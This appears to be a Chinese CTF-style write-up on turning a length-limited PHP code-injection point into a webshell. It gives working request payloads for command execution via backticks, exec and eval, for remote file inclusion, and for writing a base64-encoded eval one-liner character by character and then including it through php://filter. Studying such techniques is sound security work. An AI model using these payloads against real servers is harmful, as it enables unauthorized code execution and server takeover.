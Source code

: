 那么这个代码怎么拿到webshell？

1. 命令执行的利用


	利用反引号	
	
		param=echo `$_GET[1]`;&1=bash
	
	利用exec
	
		param=exec($_GET[1]);
	
	这样我是搞不出来，还是得加个echo,但是超出了字数限制。
	
		param=echo exec($_GET[1]);&1=ls
	
	字符字数没限制和函数没限制的话还可以
	
		param=eval($_GET[1]);&1=echo `ls`;

2. 远程文件包含的利用

	正常文件包含`include $_GET[1];`，这个刚好17个字符，超了一位。

	不过，其实`include$_GET[1];`也是可以运行的，中间的空格可以不要。

		param=include$_GET[1];&1=flag

	![d1FuZV.png](https://s1.ax1x.com/2020/08/19/d1FuZV.png)

	这也是一个思路，但限制就是需要开启远程文件包含，但这个选项默认是关闭的。

3. 本地文件包含的利用

	有一种思路，利用file_put_contents可以将字符一个个地写入一个文件中，大概请求如下：

		param=$_GET[a](N,a,8);&a=file_put_contents

	`file_put_contents`的第一个参数是文件名，我传入N。PHP会认为N是一个常量，但我之前并没有定义这个常量，于是PHP就会把它转换成字符串'N'；第二个参数是要写入的数据，a也被转换成字符串'a'；第三个参数是flag，当flag=8的时候内容会追加在文件末尾，而不是覆盖。

	除了file_put_contents，error_log函数效果也类似。

	但这个方法有个问题，就是file_put_contents第二个参数如果是符号，就会导致PHP出错，比如`param=$_GET[a](N,<,8);&a=file_put_contents`。但如果要写webshell的话，“<”等符号又是必不可少的。

	每次向文件'N'中写入一个字母或数字，最后构成一个base64字符串，再包含的时候使用php://filter对base64进行解码即可。

	最后请求如下：

		# 每次写入一个字符：PD9waHAgZXZhbCgkX1BPU1RbOV0pOw
		# 最后包含
		param=include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=N

	这个base64编码后的恰好没有除字母外的其他符号，所以都可以写进去，还能恰巧构造成小马。

	![d1Mw26.png](https://s1.ax1x.com/2020/08/19/d1Mw26.png)
